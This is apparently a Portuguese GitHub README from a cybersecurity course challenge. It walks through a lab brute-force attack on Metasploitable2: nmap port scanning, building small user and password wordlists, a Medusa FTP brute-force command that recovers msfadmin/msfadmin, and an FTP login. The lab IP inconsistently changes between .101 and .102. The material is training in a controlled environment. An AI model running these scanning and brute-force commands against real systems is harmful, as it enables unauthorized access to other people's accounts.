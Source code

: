 # Simulando um Ataque de Brute Force de Senhas com Medusa e Kali Linux.

## Visão geral
Desafio do curso de Cibersegurança 2025 da Santander com parceria DIO, com o intuito de práticar e simular ataques de força bruta e criação de wordlists em um ambiente controlado, utilizando os sistemas Kali Linux e a ferramenta Medusa para acessar o Metasploitable2 e DVWA.

---

## Verificação de ip
No Metasploitable2 que será utilizado como a máquina alvo iremos verificar o ip com o comando "ip a".

<img width="644" height="239" alt="image" src="https://github.com/user-attachments/assets/3b6471e9-e284-4381-8b16-6ff12a7dab3c" />

Obtivemos o ip “192.168.56.101” da máquina alvo.
Agora que conseguimos o ip da máquina alvo, será feito o teste de conectividade para verificar se as máquinas estão na mesma rede, com o comando.
ping -c 3 192.168.56.101

<img width="613" height="196" alt="image" src="https://github.com/user-attachments/assets/1b8b87c6-680a-4cd2-9c37-1d971ce055c2" />

---

##Verificação de portas abertas
Com as máqinas conectadas na mesma rede, iremos fazer a verificação de portas abertas da máquina alvo, com o comando.
nmap -sV -p 21,22,80,445,139 192.168.56.102
<img width="886" height="312" alt="image" src="https://github.com/user-attachments/assets/16846d38-2532-4d44-9f17-34b6a54dabe7" />
A porta que iremos atacar será a 21/tcp do serviço ftp.

---

##Criando listas de usuários e senhas + ataque com a Medusa
Com os seguintes comandos iremos criar os usuários e senhas para realizar o ataque com a Medusa.

echo -e "user\nmsfadmin\nadmin\nroot" > users.txt
echo -e "123456\npassword\nqwerty\nmsfadmin" > pass.txt

Lista de usuários e senhas criadas, agora será feito o ataque na máquina alvo com o seguinte comando.
medusa -h 192.168.56.102 -U users.txt -P pass.txt -M ftp -t 6
<img width="886" height="378" alt="image" src="https://github.com/user-attachments/assets/eb510397-cee6-46e3-bc15-321fc51bae8b" />
Senha e usuário capturadas com sucesso.
ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]

---

##Realizando o ataque
Com os dados da senha e usuário capturados é a hora de realizar o ataque a máquina alvo através do serviço ftp, com o comando.
ftp 192.168.56.101
<img width="495" height="292" alt="image" src="https://github.com/user-attachments/assets/c5c0a67b-84d7-4ac2-83fd-e282de270355" />
Máquina alvo acessada com sucesso.

---

